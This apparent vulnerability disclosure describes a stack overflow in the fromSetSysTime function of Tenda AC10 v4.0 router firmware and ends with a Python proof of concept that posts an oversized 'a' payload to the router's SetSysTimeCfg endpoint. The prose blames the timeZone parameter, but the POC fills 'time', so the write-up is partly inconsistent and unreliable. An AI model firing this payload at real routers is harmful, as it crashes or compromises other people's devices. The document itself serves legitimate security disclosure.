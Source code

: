 ## Overview

- Manufacturer's website information：https://www.tenda.com.cn/

- Firmware download website: https://www.tenda.com.cn/download/detail-3506.html、https://www.tenda.com.cn/download/detail-3684.html

## Affected version

AC10 v4.0 V16.03.10.13、V16.03.10.20

## Vulnerability details

The Tenda AC10 v4.0 V16.03.10.13 firmware has a stack overflow vulnerability in the `fromSetSysTime` function. The `v5` variable receives the `timeType` parameter from a POST request and we let `v5=="sync"` to execute function `sub_4A75C0`. 

![image-20240316230222799](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316230222799.png)

The `s` variable receives the `timeZone` parameter from a POST request. However, since the user can control the input of `timeZone`, the statement `strcpy((char *)v6, s);` can cause a buffer overflow. The user-provided  `timeZone` can exceed the capacity of the `v6` array, triggering this security vulnerability.

![image-20240316230530806](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316230530806.png)

![image-20240316230359899](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316230359899.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*2000

data = {
        'timeType':'sync',
        'time':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316230737905](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316230737905.png)
